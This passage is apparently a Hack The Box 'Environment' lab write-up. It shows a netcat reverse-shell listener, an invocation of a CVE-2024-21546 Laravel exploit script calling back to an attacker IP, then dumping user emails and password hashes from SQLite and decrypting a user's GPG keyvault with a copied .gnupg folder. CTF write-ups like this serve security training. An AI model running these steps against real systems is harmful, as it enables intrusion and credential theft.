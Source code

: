 ```bash
nc -lvnp 4444
```
- The syntax to use
```bash
python3 CVE-2024-21546.py <target_url> <listener_ip> <listener_port> <laravel_session>
```

```sh title:command-lastest-used
python3 CVE-2024-21546.py http://environment.htb 10.10.14.121 9001 eyJpdiI6IkFaZHV3bUtEYlVRMHY1dHFSS3FzblE9PSIsInZhbHVlIjoiNWRVZTNIcDBxcGgvS2hRVVpLWFZuNmUzbVlpY1JJVEdINU1lRFJHa1pWSTdOamJqbTc2MzlabU1JZDgvcXNuWnJIUDhXY2o2NUFDYWJEbGpvenJMaXhNYXQzUDlablg4YUFHb2pCVkNSd2x5Yzd4U2pqR2lpMTNOcnpsT0JyeVQiLCJtYWMiOiIxNjAwNWE4ZDEzMWE0OGM3MTIyY2M2MTc0YmZhNzVkOGE5MzUxYTA1ZGU0YWE4OGMyZjJkNjYwMDM2MTc4ZWZiIiwidGFnIjoiIn0%3D
```
- gained access to www-data
![](<./attachments/Environment-17.png>)
# Lateral Movement to hish

## Local enumeration
- uid=33(www-data) gid=33(www-data) groups=33(www-data)
- cd into `/app` and do database check `find . grep sql` ; access the database 
- run `sqlite3 database.sqlite3 .dump`; the result:
![](<./attachments/Environment-20.png>)
- for this we can use command `sqlite3 database.sqlite` to access sqlite
- then enter  `select email,password from users;` 
![](<./attachments/Environment-21.png>)
- can access `/home/hish` and `ls -al`
- locatated  user.txt and backup folder , also has a hidden .[gnupg](https://www.gnupg.org/)  folder
- `cp -r /home/hish/.gnupg/ /dev/shm` - /dev/shm is a temporary file storage filesystem
- need to change `$HOME` variable for  next part `export HOME=home/hish`
```sh
gpg -d --homedir /dev/shm/.gnupg /home/hish/backup/keyvault.gpg
```
